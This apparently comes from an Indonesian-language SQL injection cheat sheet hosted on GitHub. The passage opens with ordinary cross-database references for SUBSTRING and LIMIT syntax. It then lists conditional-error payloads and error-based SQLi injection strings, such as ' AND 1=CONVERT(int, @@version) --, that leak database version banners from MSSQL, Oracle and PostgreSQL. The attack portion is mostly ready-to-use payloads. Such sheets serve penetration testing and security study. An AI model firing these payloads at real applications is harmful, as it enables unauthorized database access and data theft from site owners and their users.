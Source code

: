 ### c. Substring

| Database   | Sintaks                                   | Contoh                                      |
| ---------- | ----------------------------------------- | ------------------------------------------- |
| MySQL      | `SUBSTRING(string, start, length)`        | `SUBSTRING('abcdef', 2, 3) -> 'bcd'`        |
| PostgreSQL | `SUBSTRING(string FROM start FOR length)` | `SUBSTRING('abcdef' FROM 2 FOR 3) -> 'bcd'` |
| MSSQL      | `SUBSTRING(string, start, length)`        | `SUBSTRING('abcdef', 2, 3) -> 'bcd'`        |
| Oracle     | `SUBSTR(string, start, length)`           | `SUBSTR('abcdef', 2, 3) -> 'bcd'`           |
| SQLite     | `SUBSTR(string, start, length)`           | `SUBSTR('abcdef', 2, 3) -> 'bcd'`           |

### d. Query Limit (Membatasi Jumlah Hasil)

| Database   | Sintaks Limit                                                 | Contoh                                                                                                   |
| ---------- | ------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| MySQL      | `LIMIT n OFFSET m`                                            | `SELECT * FROM users LIMIT 5 OFFSET 10;`                                                                 |
| PostgreSQL | `LIMIT n OFFSET m`                                            | `SELECT * FROM users LIMIT 5 OFFSET 10;`                                                                 |
| MSSQL      | `SELECT TOP n ...` atau `OFFSET ... FETCH NEXT ... ROWS ONLY` | `SELECT TOP 5 * FROM users;`<br>`SELECT * FROM users ORDER BY id OFFSET 10 ROWS FETCH NEXT 5 ROWS ONLY;` |
| Oracle     | `ROWNUM` atau `FETCH FIRST n ROWS ONLY`                       | `SELECT * FROM users WHERE ROWNUM <= 5;`<br>`SELECT * FROM users FETCH FIRST 5 ROWS ONLY;`               |

### e. Conditional Errors (Error-based Condition)

| Database       | Payload                                                                                 |
| -------------- | --------------------------------------------------------------------------------------- |
| **Oracle**     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| **MSSQL**      | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| **PostgreSQL** | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| **MySQL**      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

> **Catatan:** Teknik ini digunakan untuk memicu error hanya jika kondisi tertentu terpenuhi, sehingga dapat digunakan untuk inferensi data secara lebih presisi pada error-based SQLi.

---

## 3. Klasifikasi Teknik Eksploitasi

### a. In-band SQLi (Classic SQLi)

#### i. Error-based SQLi

| Deskripsi             | Payload                                                                              |
| --------------------- | ------------------------------------------------------------------------------------ |
| Versi DB (MSSQL)      | `' AND 1=CONVERT(int, @@version) --`                                                 |
| Versi DB (Oracle)     | `' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT banner FROM v$version WHERE ROWNUM=1)) --` |
| Versi DB (PostgreSQL) | `' AND 1=(SELECT CAST(version() AS int)) --`                                         |
